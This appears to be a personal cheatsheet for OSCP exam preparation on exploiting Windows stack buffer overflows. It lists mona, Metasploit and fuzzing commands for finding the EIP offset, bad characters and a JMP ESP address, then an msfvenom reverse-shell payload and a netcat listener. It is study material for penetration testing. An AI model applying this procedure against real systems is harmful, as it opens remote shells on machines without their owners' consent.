 ```yaml
---
layout: post
title: Buffer Overflow personal cheatsheet
tags: [OSCP, Buffer Overflow, cheatsheet]
description: "Buffer Overflow personal cheatsheet"

---
```


## Check for windows protections :

- C:\Users\thiba\Desktop\build\Release\winchecksec.exe <PATH.exe>

# Buffer Overflow "Normal" :

## Mona Configuration :

- mona config -set workingfolder c:\mona\%p

## Fuzzing :

- fuzzer.py / fuzzer2.py -> until app crash
- /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <SIZE> -> SIZE higher than crash offset

## Crash Replication & Controlling EIP :

- modify payload variable by pattern (exploit.py) 
- !mona findmsp -distance <SIZE> -> SIZE same as pattern
- EIP contains normal pattern : ... (offset XXXX) -> get the offset, modify offset variable (exploit.py)
- modify retn variable by "BBBB", remove payload
- Re-run exploit.py -> EIP should be "BBBB"

## Finding Bad Characters :

- !mona bytearray -b "\x00" -> copy results to payload variable
- Re-run exploit.py
- !mona compare -f C:\mona\oscp\bytearray.bin -a <ESP ADDRESS> -> copy bad chars
- !mona bytearray -b "\x00+<BAD CHARS>" -> copy results to payload variable
- !mona compare -f C:\mona\oscp\bytearray.bin -a <ESP ADDRESS> -> Repeat the badchar comparison until the results status returns
- "Unmodified". This indicates that no more badchars exist.

## Finding a Jump Point :

- !mona jmp -r esp -cpb "<BAD CHARS>" -> Choose an address and update exploit.py, setting the "retn" variable to the address, written backwards

## Generate Payload :

- msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> EXITFUNC=thread -b "<BAD CHARS>" -f py -> Copy the generated shell code setting the payload variable

## Prepend NOPs :

- padding = "\x90" * 16

## Start nc listerner :

- nc -lvp 1234

